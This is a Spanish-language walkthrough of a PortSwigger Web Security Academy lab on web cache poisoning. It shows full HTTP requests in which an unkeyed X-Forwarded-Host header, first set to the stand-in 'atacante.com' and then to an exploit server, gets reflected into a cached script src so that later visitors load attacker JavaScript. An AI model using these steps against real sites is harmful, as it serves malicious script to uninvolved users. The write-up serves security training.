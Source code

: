 ```yaml
---
description: >-
  https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header
---
```


# Lab 1: Web cache poisoning with an unkeyed header

Tenemos la siguiente peticion inicial:

```bash
GET / HTTP/2
Host: 0a78005e04586385800458cf00f5005c.web-security-academy.net
Cookie: session=d5rexs2XWUOrHG8Jxhxms8Ojpfg8oeHM
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=0, i

```

Y esto responde:

{% code lineNumbers="true" %}
```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 10982

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>Web cache poisoning with an unkeyed header</title>
    </head>
    <body>
        <script type="text/javascript" src="//0a78005e04586385800458cf00f5005c.web-security-academy.net/resources/js/tracking.js"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Web cache poisoning with an unkeyed header</h2>
```
{% endcode %}

Modificamos la peticion adicionando un parametro y una cabecera:

```bash
GET /?cb=1234 HTTP/2
Host: 0a78005e04586385800458cf00f5005c.web-security-academy.net
Cookie: session=d5rexs2XWUOrHG8Jxhxms8Ojpfg8oeHM
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
X-Forwarded-Host: http://atacante.com
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=0, i


```

Y lo anterior respondio asi:

{% code lineNumbers="true" %}
```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 21
X-Cache: hit
Content-Length: 10937

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>Web cache poisoning with an unkeyed header</title>
    </head>
    <body>
        <script type="text/javascript" src="//atacante.com/resources/js/tracking.js"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Web cache poisoning with an unkeyed header</h2>
```
{% endcode %}

En la linea 17 se puede apreciar que el dominio agregado en la cabecera `X-Forwarded-Host: http://atacante.com` se esta reflejando dentro de la propiedad src de la etiqueta script.

Tambien otra diferencia importante entre la peticion legitima tenia la siguiente cabecera:

```
X-Cache: miss
```

y la otra peticion tenia esta:

```
X-Cache: hit
```

Por lo anterior modificamos nuestro exploit server:

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Y luego de lo anterior, enviamos la peticion con el dominio de nuestro exploit server:

```bash
GET /?cb=1234 HTTP/2
Host: 0a78005e04586385800458cf00f5005c.web-security-academy.net
Cookie: session=d5rexs2XWUOrHG8Jxhxms8Ojpfg8oeHM
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
X-Forwarded-Host: exploit-0a910058048d63ca804257c6013c0019.exploit-server.net
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=0, i


```

Y la peticion previa responde asi:

{% code lineNumbers="true" %}
```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 10984

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>Web cache poisoning with an unkeyed header</title>
    </head>
    <body>
        <script type="text/javascript" src="//exploit-0a910058048d63ca804257c6013c0019.exploit-server.net/resources/js/tracking.js"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Web cache poisoning with an unkeyed header</h2>
```
{% endcode %}

Despues de lo anterior, podemos quitar el parametro y enviar la peticion asi: GET / HTTP/2

De esta manera cuando la victima acceda a la raiz, se le desplegara el XSS:

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
